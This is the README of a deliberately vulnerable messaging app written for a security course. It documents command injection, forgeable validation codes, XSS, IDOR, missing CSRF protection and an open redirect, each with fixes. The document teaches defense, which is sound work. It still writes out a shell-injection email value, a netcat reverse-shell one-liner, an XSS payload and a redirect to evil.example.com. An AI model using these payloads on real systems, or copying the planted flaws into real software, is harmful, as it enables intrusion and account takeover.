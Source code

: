 Messagebook - Cyber Security Base - Project I
=============================================

First project for [Cyber Security Base course](https://cybersecuritybase.github.io/).

This is a barebones messaging app. Testing credentials are `ted:ted` and `teddy:ted`
Any additional bugs found from the application are purely accidental.

Relevant urls:

- http://localhost:8080/signup new account creation
- http://localhost:8080/login login as an existing user

## Vulnerabilities by category

### A1: Command injection in mailing functionality

URL: http://localhost:8080/signup

When registering, the user is instructed to input their account details with an valid email address. This address will be validated against a one-time authorization code (OTAC) sent to the specified address. Email functionality in `MailService` is supposed to be implemented with sendmail, qmail or other mail transfer agent (MTA) executable, but due to the nature of the assignment any mail will not actually be sent.

The MTA executable is executed with the Java runtime `exec()` call within a shell environment, so providing an email address with functional shell script as a suffix will execute the script with the runtime privileges. Consider the behaviour to be similar with PHPMailer. The functionality is intended to be cross-platform, so Windows command interpreter injection should also be possible, but I have not tested this.

Example email field input sequence for shell: `hello@example.com; touch /tmp/pwned`

Check the /tmp/ directory for the created file to confirm the vulnerability.

**Explanation**: when the `exec()` call is made with the String array `{"/bin/sh", "-c", "echo " + account.getEmail()}` the method will execute `/bin/sh -c echo hello@example.com; touch /tmp/pwned`. The `-c` will set `/bin/sh` to read and evaluate the commands from the argument list, which now is `echo hello@example.com; touch /tmp/pwned`. We can imagine that the `echo` is the MTA executable so this will execute the MTA and the `touch` command in addition, which will create the file `/tmp/pwned`.

This way we can execute any command in the runtime context. We can execute the commands `rm /tmp/shell;mknod /tmp/shell p;nc localhost 10009 0</tmp/shell|/bin/sh 1>/tmp/shell` and in our local machine `nc -v -l 10009`. This will create a reverse shell that will take input as commands and output the command output. This can be used to download and install your own binaries and conduct additional attacks to other hosts in the network. The methods are similar on Windows platforms, but with batch scripting.

**FIX**: make use of Java's JavaMail API functionality or only accept email addresses with a specific pattern ie. `[a-z0-9\.\-\+]+@[a-z0-9]+\.[a-z]+`

### A2: Broken authentication: email validation code

URL: http://localhost:8080/validate/{user}

After registering, the user will be asked to input the received code. This code is not generated with a secure pseudorandom number generator, as it is derived from the username. The code can be easily duplicated with calculating the MD5 of the username and taking the first 5 characters of the hex digest. In addition to this, the page can be accessed by anyone and the code is never invalidated.

**FIX**: Make sure you generate random code for every user and invalidate any temporary tokens etc. that you mail in a potentially unencrypted medium.

### A3: Poor input/output sanitation for posted messages

URL: http://localhost:8080/messages/{username}

After registering, the user has the chance to send messages to other users in the system and to themselves. These messages are intended to have HTML structure, so the HTML encoding has been turned off in the Thymeleaf template `messages.html` with the `th:utext` to introduce the developers own homebrew input validation scheme in the service `SanitizerService`. It is based on a blacklist of strings that are removed from the message body, so it is easily defeated.

Example message body: `<sCript>alert('xss!');</sCript>`

**FIX**: A more quick fix would turn off the grand, homebrew sanitization scheme and use `th:text` in place. Downside is that the message can't have any markup language associated with it anymore. The developer could introduce some flavour of markdown formatting which would get rendered with Thymeleaf in to HTML.

With user generated, free-form messages such as these, they should be stored as-is without any modifications to the database. When they are displayed, they should be modified to fit the context of the consumer, in this case the browser. If the messages are transferred to some other medium, such as SMS messages, the body should be sanitized in the context of a text message (strip HTML tags, shorten urls or insert abbreviations etc.).

### A4: Indirect user reference

URLS:
- http://localhost:8080/account/{username}
- http://localhost:8080/message/{username}

The users can choose whether or not they are visible in the site's message and account listings from their settings. This does not work correctly as users can be still accessed with a direct url. The hiding functionality is done purely with the template engine rules.

Example: there exists an example user ted that can be accessed in http://localhost:8080/account/ted even though he is set as not visible.

**FIX**: In AccountController.userMessages and MessageController.userMessages check whether the user has set the visibility attribute to true and return a `403 Forbidden` or `404 Not Found` code to the browser. 

### A7: User settings can be changed by any other user

URL: http://localhost:8080/account/{username}

AccountController.userSettings does not check the authorization of the POST request, so any logged in user can POST new settings for the any user.

Easiest reproduction of the issue is changing the currently logged in user's form action attribute to any other user such as:

`<form action="/account/teddy" method="POST">`

becomes 

`<form action="/account/ted" method="POST">`

**FIX**: AccountController.userSettings should be changed to check for the currently logged in user against the user for the proposed change.

### A8: CSRF is disabled

Forms do not contain any Cross-Site-Request-Forgery tokens.

Attacker can POST to any controller as a currently logged in user, and can be chained with the previously mentioned vulnerability.

**FIX**: In the class SecurityConfiguration remove `csrf().disable()`

### A10: Unvalidated redirect

SignupController.validateAccount will redirect to any url provided in the POST form.

Attacker can make the user POST a valid code but modify the url parameter in the action, thus redirecting the user to a potentially fraudulent or malicious site.

`<form action="/validate/ted?url=/login" method="POST">`

becomes

`<form action="/validate/ted?url=http://evil.example.com" method="POST">`

**FIX**: Only redirect users inside the application or to predetermined trusted URLs


